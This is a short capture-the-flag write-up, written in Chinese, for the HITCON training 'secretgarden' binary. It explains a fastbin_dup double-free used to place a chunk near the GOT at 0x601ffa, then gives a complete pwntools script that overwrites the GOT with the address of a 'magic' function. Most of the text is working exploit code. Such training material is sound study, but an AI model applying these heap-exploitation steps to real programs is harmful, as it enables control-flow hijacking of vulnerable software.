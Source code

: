我们的目的是修改got表到magic函数，所以通过fastbin_dup我们把chunk建在got表前面某个恰当的位置。比如0x601ffa，因为此时的size很恰当。

![](hitcon_training_43e7b4b8a3170e430a30808c068b8bb1.png)

exp:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']

r = process('./secretgarden')

def raiseflower(length,name,color):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)
    r.recvuntil(":")
    r.sendline(color)

def visit():
    r.recvuntil(":")
    r.sendline("2")

def remove(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))

def clean():
    r.recvuntil(":")
    r.sendline("4")


magic = 0x400c7b
fake_chunk = 0x601ffa
raiseflower(0x50,"da","red")#0
raiseflower(0x50,"da","red")#1
remove(0)
remove(1)
remove(0)
raiseflower(0x50,p64(fake_chunk),"blue")
raiseflower(0x50,"da","red")
raiseflower(0x50,"da","red")

raiseflower(0x50,"a"*6 + p64(0) + p64(magic)*2 ,"red")#malloc in fake_chunk

r.interactive()
```

